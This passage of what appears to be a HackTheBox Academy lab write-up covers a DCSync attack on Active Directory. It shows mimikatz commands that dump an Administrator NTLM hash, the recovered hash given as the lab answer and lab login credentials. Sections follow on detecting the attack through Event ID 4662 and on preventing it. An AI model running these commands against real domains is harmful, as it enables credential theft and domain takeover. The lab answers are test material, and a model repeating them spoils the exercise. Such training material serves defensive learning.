 ```mimikatz
privilege::debug
```

#### 6. Perform DCSync

```mimikatz
lsadump::dcsync /domain:eagle.local /user:Administrator
```

***

### Resultw

#### NTLM Hash of Administrator

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FGWWTcqvqFNNPgIMKg1IV%2FScreenshot%202025-09-12%20at%2010.41.38%E2%80%AFPM.png?alt=media&#x26;token=86e69b63-7008-405c-81af-577ad9acdcff" alt=""><figcaption></figcaption></figure>

```
fcdc65703dd2b0bd789977f1f3eeaecf
```

**Answer :  fcdc65703dd2b0bd789977f1f3eeaecf**

#### Supplemental Credentials

* Kerberos-Newer-Keys: aes256\_hmac, aes128\_hmac, des\_cbc\_md5
* NTLM-Strong-NTOWF

***

### Detection

**Q2** After performing the DCSync attack, connect to DC1 as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs in Event Viewer. What is the Task Category of the events generated by the attack?

* Event ID: `4662` in **Security Logs**
* **Task Category:** `Directory Service Access`
* Monitored when a user replicates AD objects.
* Example from Event Viewer:

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FTvKF1AZzhX1BIIDBFgvc%2FScreenshot%202025-09-12%20at%2010.32.18%E2%80%AFPM.png?alt=media&#x26;token=e4c53560-e02b-4bde-878c-2bf00eef4409" alt=""><figcaption></figcaption></figure>

| Event ID | Task Category            | SubjectUserName | ObjectType |
| -------- | ------------------------ | --------------- | ---------- |
| 4662     | Directory Service Access | rocky           | DS Object  |

***

### Prevention

* Limit the following permissions to only required users:
  * `Replicating Directory Changes`
  * `Replicating Directory Changes All`
* Use RPC Firewalls or third-party solutions to control replication traffic.
* Monitor Event ID 4662 for abnormal replication attempts.

